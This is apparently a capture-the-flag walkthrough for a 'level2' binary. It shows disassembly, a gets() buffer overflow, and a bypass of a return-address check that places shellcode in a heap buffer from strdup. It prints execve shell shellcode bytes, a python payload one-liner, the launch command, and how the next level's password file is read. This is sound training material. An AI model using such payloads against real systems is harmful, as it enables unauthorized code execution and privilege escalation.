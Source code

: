 # Level2 Walkthrough

## Analyzing the Program with GDB

1. **Disassemble the `main` function**:
   Using the command `disas`, we found that the program uses two functions :
   - p : flushes stdout, reads user input using gets(), chek for dangerous input, handle safe input, and if they are, prints it using puts() and duplicates it using strdup()
   - main : calls the function `p` at 0x8048d4

## Running the program

1. **Execute the Program with the Correct Input**:  
   We ran the program with the following command:  
   ```bash
   ./level2
   ```
    The program is waiting for the user to insert an input, prints it back and then exits properly.

2. **Trying to overflow the RET value**
    As it calls the function gets() which is vulnerable to buffer overflow attack, we can see that there is now a check to make sure we do not overwrite the return address.

    This avoids having a shellcode stored on the stack or in environment variable.

    The function p() uses the strdup(), which uses malloc() which stores the memory in the heap. This will be our entrypoint.

    adter launching ltrace ./level2, we can see that malloc always return to address 0x804a008.

    We'll try to copy a shellcode in the heap by writing it in the input prompt and then write the allocated address (malloc) on the return address.

    we will use this shellcode : 
    ```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80```

    Since its 21 bytes long, we'll have to pad our string with arbitrary data to provoke the overflow.

    Finally, as in the previous level, we will create an exploit to: 
    ```python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit2```

    then we will launch the command ```cat /tmp/exploit2 - | ./level2```

    we are now in level3, as we can notice with the ```whoami``` command.
    Now, we just have to launch ```cat /home/user/level3/.pass```

## Moving to level3

1. **Swith User to level3**:
    Run ```su level3```

2. **Authenticate with the Password**:
    We used the password we found.